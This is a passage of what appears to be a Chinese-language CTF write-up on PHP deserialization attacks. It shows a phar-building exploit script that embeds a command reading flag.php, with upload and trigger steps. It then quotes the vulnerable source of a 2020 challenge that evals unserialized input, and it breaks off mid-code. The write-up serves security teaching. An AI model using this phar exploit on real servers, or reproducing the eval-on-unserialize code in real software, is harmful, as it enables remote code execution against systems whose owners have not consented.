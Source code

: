 ```
    `$_SESSION['user']`。因此我们可以先随便上传一个文件，不传递name参数，这样就可以拿到`$_SESSION['user']`。

    exp:
    ```php
    <?php
    error_reporting(0);
    class Uploader{
        public $Filename = 'aaa';
        //可以先用phpinfo等函数测试一下
        public $cmd = 'echo file_get_contents("/var/www/html/flag.php");';
        public $token = 'GXY88cc1f1606f74121a99dd1de5560b585';

    }
    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new Uploader();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
    ?>
    ```
    将生成的phar文件上传，利用phar协议访问url即可。

### 类型五-原生类利用

#### 极客大挑战 2020 Greatphp

##### 考点

**PHP原生类利用**

**php反序列化**

**md5()和sha1()对类进行hash 触发__toString方法**

##### 过程

1. 源码

    ```php
    <?php
    error_reporting(0);
    class SYCLOVER {
        public $syc;
        public $lover;
    
        public function __wakeup(){
            if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
                if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
                    eval($this->syc);
                } else {
                    die("Try Hard !!");
                }
            }
        }
    }
    if (isset($_GET['great'])){
        unserialize($_GET['great']);
    } else {
```
